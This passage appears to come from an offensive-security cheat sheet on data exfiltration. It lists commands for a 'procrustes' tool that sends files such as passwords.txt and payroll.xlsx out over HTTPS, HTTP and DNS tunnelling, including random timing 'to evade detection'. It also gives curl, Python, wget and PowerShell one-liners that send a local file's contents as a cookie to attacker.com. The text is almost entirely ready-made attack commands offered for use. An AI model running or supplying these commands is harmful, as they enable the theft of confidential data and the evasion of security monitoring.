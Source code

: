     
    `procrustes https exfiltrate -d confidential_folder -o output.log`
    
3. Exfiltrate data with custom DNS tunneling:
    
    
    `procrustes dns exfiltrate -f sensitive.doc -o dns_output.log`
    
4. Exfiltrate using HTTPS with custom headers:
    
    
    `procrustes https exfiltrate -f passwords.txt -H "User-Agent: my_app" -o exfil.log`
    
5. Exfiltrate data with random intervals to evade detection:
    
    
    `procrustes https exfiltrate -f data.csv -i random -o exfiltration.log`
    
6. Exfiltrate a file while encrypting it:
    
    
    `procrustes https exfiltrate -f confidential.pdf -e aes256 -o encrypted.log`
    
7. Exfiltrate data using HTTP GET requests:
    
    
    `procrustes http exfiltrate -f sensitive_data.json -o http_exfil.log`
    
8. Exfiltrate data with custom MIME type:
    
    
    `procrustes https exfiltrate -f payroll.xlsx -M application/vnd.openxmlformats-officedocument.spreadsheetml.sheet -o exfil.log`
    
9. Exfiltrate data using chunked transfer encoding:
    
    
    `procrustes https exfiltrate -f large_data.zip -C 1024 -o chunked.log`
    
10. Exfiltrate data using a custom User-Agent header:
    
    `procrustes https exfiltrate -f confidential.docx -H "User-Agent: my_custom_agent" -o user_agent.log`



### HTTP Cookie

1. **Using cURL on Linux/macOS to send data as a cookie:**


`curl -b "data=$(cat /path/to/local/file.txt)" http://attacker.com`

2. **Using Python on Linux/macOS/Windows to send data as a cookie:**


`python -c "import requests; requests.get('http://attacker.com', cookies={'data': open('/path/to/local/file.txt', 'rb').read()})"`

3. **Using Wget on Linux to send data as a cookie:**


`wget --header "Cookie: data=$(cat /path/to/local/file.txt)" http://attacker.com`

4. **Using PowerShell on Windows to send data as a cookie:**


`Invoke-WebRequest -Uri http://attacker.com -Headers @{Cookie="data=$(Get-Content 'C:\path\to\local\file.txt')"}`

